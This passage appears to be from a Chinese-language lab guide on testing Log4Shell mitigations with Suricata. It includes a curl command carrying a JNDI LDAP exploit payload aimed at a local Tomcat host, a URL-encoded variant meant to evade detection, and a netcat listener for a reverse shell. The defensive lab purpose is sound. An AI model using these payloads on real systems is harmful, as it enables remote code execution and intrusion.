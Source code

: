 1. **实时监控 Suricata 日志：**

```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

------

## ✅ **第五步：验证缓解效果**

### 🚀 **1. 执行基础 Payload 测试（预期失败）**

```bash
curl -G http://192.168.109.4:22220//hello \
--data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmF...}'
```

**预期结果：**
 ✅ Suricata 报警
 ✅ 漏洞未被触发

------

### 🚀 **2. 执行绕过测试（预期可能成功）**

👉 **通过 URL 编码、Base64 或大小写绕过策略测试**

**示例：**

```bash
${jndi:%6c%64%61%70://192.168.109.5:1389/TomcatBypass/Command/Base64/...}
```

**预期结果：**
 ✅ Suricata 报警
 ✅ 如果成功触发，说明存在绕过策略

------

### 🚀 **3. 监听反弹 Shell**

在攻击机上设置监听器：

```bash
nc -lvnp 7777
```

------

## 🏆 **任务完成标准**

| 步骤               | 执行状态 | 结果                 |
| ------------------ | -------- | -------------------- |
| 禁用 JNDI 加载器   | ✅ 完成   | 成功修改配置或删除类 |
| 关闭 LDAP/RMI 出站 | ✅ 完成   | 出站连接被拦截       |
| 启用 Suricata 监控 | ✅ 完成   | 监控成功触发         |
| 执行基础 Payload   | ✅ 成功   | 拦截触发             |
| 尝试绕过           | ✅ 成功   | 发现绕过方式         |
